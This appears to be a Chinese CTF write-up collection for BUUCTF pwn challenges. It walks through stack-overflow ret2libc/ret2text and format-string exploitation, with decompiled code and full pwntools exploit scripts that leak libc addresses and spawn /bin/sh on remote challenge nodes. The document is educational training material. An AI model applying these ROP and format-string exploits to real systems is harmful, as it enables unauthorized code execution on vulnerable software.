

# pwn

## jarvisoj_level2
>做题人：郑林均
>url链接：https://buuoj.cn/challenges#jarvisoj_level2

下载文件后放linux用checksec一下


发现32位的，放进IDA看一下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  system("echo Input:");
  return read(0, buf, 0x100u);
}
```
很容易发现有溢出点buf，read可以读进0x100，而buf只有0x88，再shift加f12，发现bin/sh


PIE保护没开
很容易想到ret2libc，查找bin/sh地址，system地址，可以开始构造payload了


理解什么是ret2libc，利用栈溢出，把程序的执行流劫持到已有的libc函数中，比如system
先理解在汇编语言32位计算机中函数调用的过程
```
.text:08048457 68 40 85 04 08                push    offset command                  ; "echo Input:"
.text:0804845C E8 BF FE FF FF                call    _system
```
可以看到，在调用函数之前，会将函数需要的参数压入栈中，然后调用函数即使用call的时候会，CPU会自动完成“push返回地址”的操作，最后才是进入到被调用函数的逻辑
```
[padding栈溢出直到返回地址] + [system函数地址] + [返回地址] + ["/bin/sh"字符串地址]
```
需要构造返回地址的原因是我们使用的是栈溢出覆盖返回地址从而达到调用函数，不是call指令达成的，因此不会自动完成push操作，所以要手动完成，返回地址可以是main函数或exit函数地址

对于参数“/bin/sh”部分，分为两种情况，即程序中含有该字符串和程序中没有该字符串

如果有该字符串，那么直接指明该字符串的位置即可

如果没有，那么需要直接在栈中写入该参数（一般放在payload的末尾），比如 b"/bin/sh\x00"，然后在payload中指明该参数的位置
```
[padding] + [system函数地址] + [返回地址] + ["/bin/sh"字符串地址] + b"/bin/sh\x00"

```
然后可以开始构造poc
```python
from pwn import*

r=remote('node5.buuoj.cn',29694)

system_adr=0x08048320 
sh_adr=0x0804A024
adr=0x08048480
payload=b'a'*(0x88+4)+p32(system_adr)+p32(adr)+p32(sh_adr)

r.sendline(payload)

r.interactive()

```
得到flag

##  warmup_csaw_2016
>做题人：郑林均
>url链接：[buuctf](https://buuoj.cn/challenges#warmup_csaw_2016)
先放进linux用checkse一下


发现是64位并且什么保护都没开，再放进IDA看看
查看主函数

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  char v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", sub_40060D);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets((__int64)v5);
}
```
发现溢出点，用了gets函数，输入没有限制
然后找获得权限的函数
用shift+f12查看


发现有cat flag.txt

就用这个来获得flag
现在可以开始构造payload了
```python
from pwn import* #引用pwn库

r=remote('node5.buuoj.cn',28399)  #远程链接

system_adr=0x040060D #cat flag.txt函数的地址

payload=b'a'*(0x40+8)+p64(system_adr) //先输入0x40+8个垃圾数据导致其返回地址被覆盖，然后再加入flag函数地址

r.sendline(payload)

r.interactive()

```
得到flag

## jarvisoj_level3

>做题人：郑林均
>url链接：[jarvisoj_level3
1](https://buuoj.cn/challenges#jarvisoj_level3)

先放入linux用checksec一下，发现是32位的，开启了NX保护，然后放进IDA看看，很容易发现溢出点
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);                  // //溢出点
                                                
}
```

```python
from pwn import *
from LibcSearcher import *

r=remote('node5.buuoj.cn',26178)
elf=ELF('./level3')

main=0x804844B
write_plt=elf.plt['write']
write_got=elf.got['write']

payload=b'a'*(0x88+4)+p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(4)

r.recvuntil('Input:\n')
r.sendline(payload)
write_addr=u32(r.recv(4))

libc=LibcSearcher('write',write_addr)
libc_base=write_addr-libc.dump('write')
system=libc_base+libc.dump('system')
sh=libc_base+libc.dump('str_bin_sh')

payload=b'a'*(0x88+4)+p32(system)+p32(main)+p32(sh)
r.recvuntil('Input:\n')
r.sendline(payload)

r.interactive()

```

​​ELF​​：加载目标二进制文件，便于获取符号信息
write_plt:用于获得write函数的plt地址，调用writw函数

write_got：获取write函数的GOT地址，该地址存储了write函数在内存中的实际地址（在第一次调用后由动态链接器填充）。

>main：获取主函数的地址，用于在泄露地址后返回主函数重新执行。

>payload_adr去泄漏write函数的真实地址，返回地址尾write_plt，这样会调用write函数，然后后面是main函数，作为write函数返回后的地址，再次执行mian函数，方便
二次调用，然后是调用write函数的参数：fd=1（标准输出），buf=write_got（要泄露的地址），count=4（打印4字节）

>r.recvunti是再收到"Input:\n"时,发送sendline，r.recv(4)接收4字节数据，u32将其转换为整数。

>LibcSearcher：根据write函数泄漏的地址，查出libc的版本

>libcbase:即用泄露的write地址减去libc中write函数的偏移得到libc基址。

>然后通过基址加上libc中system和str_bin_sh（字符串/bin/sh的地址）的偏移得到这两个关键地址

## ciscn_2019_en_2

>url链接：[ciscn_2019_en_2
1](https://buuoj.cn/challenges#ciscn_2019_en_2)
>知识点：ret2libc


放进linux中checksec一下，然后放进IDA
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-4h] BYREF

  init(argc, argv, envp);
  puts("EEEEEEE                            hh      iii                ");
  puts("EE      mm mm mmmm    aa aa   cccc hh          nn nnn    eee  ");
  puts("EEEEE   mmm  mm  mm  aa aaa cc     hhhhhh  iii nnn  nn ee   e ");
  puts("EE      mmm  mm  mm aa  aaa cc     hh   hh iii nn   nn eeeee  ");
  puts("EEEEEEE mmm  mm  mm  aaa aa  ccccc hh   hh iii nn   nn  eeeee ");
  puts("====================================================================");
  puts("Welcome to this Encryption machine\n");
  begin();
  while ( 1 )
  {
    while ( 1 )
    {
      fflush(0LL);
      v4 = 0;
      __isoc99_scanf("%d", &v4);
      getchar();
      if ( v4 != 2 )
        break;
      puts("I think you can do it by yourself");
      begin();
    }
    if ( v4 == 3 )
    {
      puts("Bye!");
      return 0;
    }
    if ( v4 != 1 )
      break;
    encrypt();
    begin();
  }
  puts("Something Wrong!");
  return 0;
}
int encrypt()
{
  size_t v0; // rbx
  char s[48]; // [rsp+0h] [rbp-50h] BYREF
  __int16 v3; // [rsp+30h] [rbp-20h]

  memset(s, 0, sizeof(s));
  v3 = 0;
  puts("Input your Plaintext to be encrypted");
  gets(s);
  while ( 1 )
  {
    v0 = (unsigned int)x;
    if ( v0 >= strlen(s) )
      break;
    if ( s[x] <= 96 || s[x] > 122 )
    {
      if ( s[x] <= 64 || s[x] > 90 )
      {
        if ( s[x] > 47 && s[x] <= 57 )
          s[x] ^= 0xCu;
      }
      else
      {
        s[x] ^= 0xDu;
      }
    }
    else
    {
      s[x] ^= 0xEu;
    }
    ++x;
  }
  puts("Ciphertext");
  return puts(s);
}
```
很容易发现功能1有溢出点，但encrypt函数内使用strlen函数来作为加密的关键，首位\0的特殊输入即可绕过加密，另外本题并无后门函数，首先需要泄漏libc和对应函数地址，利用泄漏到的信息，二次溢出获得shell
exp:
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

p=remote('node5.buuoj.cn',25970)
elf=ELF('./ciscn_2019_en_2')

ret=0x4006b9  #用于栈对对齐
pop_rdi=0x400c83 #用于设置函数参数
main=elf.sym['main']  #获取main函数地址用于再次触发漏洞
puts_plt=elf.plt['puts']  #获得puts函数PLT地址
puts_got=elf.got['puts']  #获得puts函数GOT地址，用于泄漏libc函数地址

p.sendlineafter("choice!\n",'1')#选择菜单1
pl=b'\0'+b'a'*(0x50-1+8)+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)#b'\0'用于越过strlen的过滤，然后缓冲区+ROP链调用puts（puts_got)打印puts真实地址+返回函数
p.sendlineafter("encrypted\n",pl)
p.recvline()
p.recvline()
puts=u64(p.recvuntil(b'\n')[:-1].ljust(8,b'\0'))#接收并解析的puts函数地址
libc=LibcSearcher('puts',puts)#识别libc版本
libc_addr=puts-libc.dump('puts')#计算libc基址
binsh=libc_addr+libc.dump('str_bin_sh')#计算system函数地址和/bin/sh字符串地址
system=libc_addr+libc.dump('system')
p.sendlineafter("choice!\n",'1')
pl=b'\0'+b'a'*(0x50-1+8)+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(system)
p.sendlineafter("encrypted\n",pl)


p.interactive()
```
## [OGeek2019]babyrop

>url链接:[babyrop](https://buuoj.cn/challenges#[OGeek2019]babyrop)
>知识点：ret2libc


发现开了NX保护，就排除了shellcode了，然后放进IDA看
```c
int __cdecl main()
{
  int buf; // [esp+4h] [ebp-14h] BYREF
  char v2; // [esp+Bh] [ebp-Dh]
  int fd; // [esp+Ch] [ebp-Ch]

  sub_80486BB();
  fd = open("/dev/urandom", 0);
  if ( fd > 0 )
    read(fd, &buf, 4u);
  v2 = sub_804871F(buf);
  sub_80487D0(v2);
  return 0;
}
int sub_80486BB()
{
  alarm(0x3Cu);
  signal(14, handler);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  return setvbuf(stderr, 0, 2, 0);
}
int __cdecl sub_804871F(int a1)
{
  size_t v1; // eax
  char s[32]; // [esp+Ch] [ebp-4Ch] BYREF
  char buf[32]; // [esp+2Ch] [ebp-2Ch] BYREF
  ssize_t v5; // [esp+4Ch] [ebp-Ch]

  memset(s, 0, sizeof(s));
  memset(buf, 0, sizeof(buf));
  sprintf(s, "%ld", a1);
  v5 = read(0, buf, 0x20u);
  buf[v5 - 1] = 0;
  v1 = strlen(buf);
  if ( strncmp(buf, s, v1) )
    exit(0);
  write(1, "Correct\n", 8u);
  return (unsigned __int8)buf[7];
}
ssize_t __cdecl sub_80487D0(char a1)
{
  char buf[231]; // [esp+11h] [ebp-E7h] BYREF

  if ( a1 == 127 )
    return read(0, buf, 0xC8u);
  else
    return read(0, buf, a1);
}
```
很长，fd打开随机数生成文件，将前四位赋值给buf，所以导致他为随机数，然后来到sub_804871F函数，buf变成了a1，，然后要考虑这个比较，比较bufhes的前v1个字符，所以要求v1=0，而strlen函数遇到0x00就会停止，是的v1=0，然后考虑的是返回的buf[7]，第三个函数当a1足够大时，就会造成栈溢出，所以要求直接修改buf[7]的值，所以构造
>payload1=b'\0x00'+b'a'*6+b'\0xff'*2

而用IDA查看了，没有后面函数，就要用ret2libc了
exp:
```python 
from pwn import *
from LibcSearcher import *
r=remote('node5.buuoj.cn',25080)
context(os = 'linux', arch = 'amd64', log_level = 'debug')
elf=ELF('./1')
payload1=b'\x00'+b'a'*6+b'\xff'*2
r.sendline(payload1)
r.recvuntil('Correct\n')
write_got=elf.got['write']
write_plt=elf.plt['write']
main_addr=0x08048825
payload2=b'a'*(0xe7+4)+p32(write_plt)+p32(main_addr)+p32(1)+p32(write_got)+p32(4)
#write（1，write_got，4），write的返回地址为main
r.sendline(payload2)
write_addr=u32(r.recv(4))
#u32(io.recvuntil("\xf7")[-4:])
print(hex(write_addr))
libc=LibcSearcher('write',write_addr)#寻找libc版本
libc_base=write_addr-libc.dump('write')#寻找基址
system_addr=libc_base+libc.dump('system')
bin_sh_addr=libc_base+libc.dump('str_bin_sh')
r.sendline(payload1)
r.recvuntil('Correct\n')
payload3=b'a'*(0xe7+4)+p32(system_addr)+p32(0)+p32(bin_sh_addr)
r.sendline(payload3)
r.interactive()
```


## ciscn_2019_c_1

>知识点：ret2libc

```python
from pwn import*
from LibcSearcher import*
 
r=remote('node5.buuoj.cn',26681)
elf=ELF('./3')
 
main = 0x400B28
pop_rdi = 0x400c83
ret = 0x4006b9
 
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
 
r.sendlineafter('Input your choice!\n','1')
offset = 0x50+8
payload = b'\x00'+b'a'*(offset-1)
payload=payload+p64(pop_rdi)
payload=payload+p64(puts_got)
payload=payload+p64(puts_plt)
payload=payload+p64(main)
r.sendlineafter('Input your Plaintext to be encrypted\n',payload)
r.recvline()
r.recvline()
puts_addr=u64(r.recvuntil('\n')[:-1].ljust(8,b'\0'))
print(hex(puts_addr))
libc = LibcSearcher('puts',puts_addr)
Offset = puts_addr - libc.dump('puts')
binsh = Offset+libc.dump('str_bin_sh')
system = Offset+libc.dump('system')
r.sendlineafter('Input your choice!\n','1')
payload = b'\x00'+b'a'*(offset-1)
payload=payload+p64(ret)
payload=payload+p64(pop_rdi)
payload=payload+p64(binsh)
payload=payload+p64(system)
r.sendlineafter('Input your Plaintext to be encrypted\n',payload)
 
r.interactive()
```

## ciscn_2019_n_5
 知识点：ret2libc或ret2shellcode

 

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char text[30]; // [rsp+0h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  puts("tell me your name");
  read(0, name, 0x64uLL);
  puts("wow~ nice name!");
  puts("What do you want to say to me?");
  gets(text);
  return 0;
}

```

 发现什么保护都没开，可以考虑ret2libc和ret2shellcode

 方法一：先用ret2libc，更熟悉这个一些
 发现没什么弯弯绕绕，就可以直接泄漏libc基址
 exp:
 ```python
from pwn import*
from LibcSearcher import*
r=remote('node5.buuoj.cn',27924)
elf=ELF('./1')
main = 0x0400636
pop_rdi = 0x00400713
ret = 0x04004c9 
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
r.sendlineafter('your name','aaa')
offset = 0x28
payload =b'a'*offset
payload=payload+p64(pop_rdi)
payload=payload+p64(puts_got)
payload=payload+p64(puts_plt)
payload=payload+p64(main)
r.sendlineafter(' me?',payload)
puts_addr = u64(r.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(hex(puts_addr))
libc = LibcSearcher('puts',puts_addr)
Offset = puts_addr - libc.dump('puts')
binsh = Offset+libc.dump('str_bin_sh')
system = Offset+libc.dump('system')
r.sendlineafter('your name','aaa')
payload = b'a'*offset
payload=payload+p64(ret)
payload=payload+p64(pop_rdi)
payload=payload+p64(binsh)
payload=payload+p64(system)
r.sendlineafter('me?',payload)
r.interactive()
 ```
 之前由于不理解，一直用的是
 ```python
 u64(r.recvuntil('\n')[:-1].ljust(8,b'\0'))
 ```
 这段代码的意思是，尝试接收输出，直到遇到换行符 \n，然后去掉这个换行符，将剩余部分补齐至 8 字节并解析为地址，但是在二进制漏洞利用中，程序输出可能包含​​非地址信息​​（例如，调试信息、其他函数的多余输出等）。如果这些额外数据被 recvuntil('\n')接收并包含在字符串中，u64尝试将无效数据解析为地址就会失败，导致后续计算全部错误
 这道题用这个便导致后面的计算全部有问题
 ```python
puts_addr = u64(r.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
 ```
 >r.recvuntil(b'\x7f'):持续接收数据，直到遇到字节 \x7f。在 ​​64 位 Linux 系统​​中，libc 地址的​​典型特征是高字节以 \x7f开头​​（例如，常见的地址形式是 0x7fxxxxxxxxxx）。这是一个非常显著的特征

 >[-6:]: 字节取最后接收到的 6 个字节。因为 \x7f是地址的最高位字节（在 Little-Endian 字节序下，它出现在地址数据的末尾），它之后的 6 个字节很可能就是地址的有效低位部分。

 >.ljust(8, b'\x00')：将这 6 个字节左对齐补齐到 8 字节，并用 \x00填充高位。这是因为 64 位地址是 8 字节的，而 u64函数需要 8 字节的数据来解析。

 方法二：
骗人的，没有第二种方法

网上的name是具有可执行权限的，而我查出来的是没有的

## ciscn_2019_ne_5

>知识点：ret2text


查看，发现开了NX保护，那shellcode就不用想了，然后放进IDA看看
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  int v4; // [esp+0h] [ebp-100h] BYREF
  char src[4]; // [esp+4h] [ebp-FCh] BYREF
  char v6[124]; // [esp+8h] [ebp-F8h] BYREF
  char s1[4]; // [esp+84h] [ebp-7Ch] BYREF
  char v8[96]; // [esp+88h] [ebp-78h] BYREF
  int *p_argc; // [esp+F4h] [ebp-Ch]

  p_argc = &argc;
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  fflush(stdout);
  *(_DWORD *)s1 = 48;
  memset(v8, 0, sizeof(v8));
  *(_DWORD *)src = 48;
  memset(v6, 0, sizeof(v6));
  puts("Welcome to use LFS.");
  printf("Please input admin password:");
  __isoc99_scanf("%100s", s1);
  if ( strcmp(s1, "administrator") )
  {
    puts("Password Error!");
    exit(0);
  }
  puts("Welcome!");
  puts("Input your operation:");
  puts("1.Add a log.");
  puts("2.Display all logs.");
  puts("3.Print all logs.");
  printf("0.Exit\n:");
  __isoc99_scanf("%d", &v4);
  switch ( v4 )
  {
    case 0:
      exit(0);
      return result;
    case 1:
      AddLog(src);
      result = sub_804892B(argc, argv, envp);
      break;
    case 2:
      Display(src);
      result = sub_804892B(argc, argv, envp);
      break;
    case 3:
      Print();
      result = sub_804892B(argc, argv, envp);
      break;
    case 4:
      GetFlag(src);
      result = sub_804892B(argc, argv, envp);
      break;
    default:
      result = sub_804892B(argc, argv, envp);
      break;
  }
  return result;
}
```
首先是密码严验证，已经给出了来了，没什么问题，然后看看三个功能
```c
int __cdecl AddLog(int a1)
{
  printf("Please input new log info:");
  return __isoc99_scanf("%128s", a1);
}
int __cdecl Display(char *s)
{
  return puts(s);
}
int Print()
{
  return system("echo Printing......");
}
int __cdecl GetFlag(char *src)
{
  char dest[4]; // [esp+0h] [ebp-48h] BYREF
  char v3[60]; // [esp+4h] [ebp-44h] BYREF

  *(_DWORD *)dest = 48;
  memset(v3, 0, sizeof(v3));
  strcpy(dest, src);
  return printf("The flag is your log:%s\n", dest);
}
```


可以看出Addlog有溢出，因为a1就是主函数的src，空间很小，第三个提供了system函数，这时就可以考虑ret2text了，最后一个函数，这个实际上也是输出我们之前输入的，但是他有个步骤是拷贝到局部变量再输出局部变量，那么也就是说我们有机会栈溢出，计算一下大小，我们可以输入的有128也就是0x80，这个局部变量距离ebp为0x48，就可以栈溢出

但是找不到bin/sh，网上说换个参数sh也是阔以滴，我们先去找找sh，这时候我们用ROPgadget帮我们


exp:
```python 
from pwn import *
from LibcSearcher import *
r=remote('node5.buuoj.cn',28995)
context(os = 'linux', arch = 'amd64', log_level = 'debug')
elf=ELF('./2')
r.recvuntil('password:')
r.sendline('administrator')
r.recvuntil('Exit\n:')
r.sendline(str(1))
main=0x08048722
system_adr=0x080484D0
sh_adr=0x080482ea
payload=b'a'*(0x48+4)+p32(system_adr)+p32(main)+p32(sh_adr)
r.sendline(payload)
#r.recvuntil('password:')
#r.sendline('administrator')
r.recvuntil('Exit\n:')
r.sendline(str(4))
r.interactive()
```

## jarvisoj_fm

>知识点：格式化字符串漏洞


```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[80]; // [esp+2Ch] [ebp-5Ch] BYREF
  unsigned int v5; // [esp+7Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  be_nice_to_people();
  memset(buf, 0, sizeof(buf));
  read(0, buf, 0x50u);
  printf(buf);
  printf("%d!\n", x);
  if ( x == 4 )
  {
    puts("running sh...");
    system("/bin/sh");
  }
  return 0;
}
```
很容易知道，让x=4就可以得到flag了，但这是第一次做到格式化字符串得问题，不了解就先看wp了，
对于格式化字符串漏洞第一步就是去查看这个输入的偏移量，这里可以输入aaaa %x %x %x...这样的字符串，因为他的printf前面没有格式化字符，所以对于输入的结果会按照这个格式化字符依次输出栈上的内容，那么我们就可以去得到这个输入在栈上的位置

可以看到其偏移量是11，因为0x61616161是我输入a的16进制结果
那么这个偏移量有什么用呢，下面就必须分析一个超级牛逼的函数：
fmtstr_payload(offset,writes)
这个函数还有一些其他参数，但是由于这道题不需要知道那么多，所以知道这两个参数怎么用就可以了，第一个参数就是偏移量，就是我们上面得到的结果，他的值是11.第二个就非常牛逼了，它是一个字典，它的键是地址，然后值可以任意，最后可以将对应地址的值改为这个任意值。

exp：
```python
from pwn import *

r=remote("node5.buuoj.cn",'27939')

x_adr=0x0804A02C 
#r.recvuntil('your name:')
#r.sendline('-1')
#r.recvuntil('u name?')
payload=fmtstr_payload(offset=11,writes={x_adr:4})
r.sendline(payload)
r.interactive()
```
原理看这个[格式化字符串漏洞原理及其利用（附带pwn例题讲解）](https://blog.csdn.net/qq_73985089/article/details/137199087?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522c033af0c7c8af025b367d901cdc821e4%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=c033af0c7c8af025b367d901cdc821e4&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-137199087-null-null.142^v102^pc_search_result_base5&utm_term=%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E&spm=1018.2226.3001.4187)
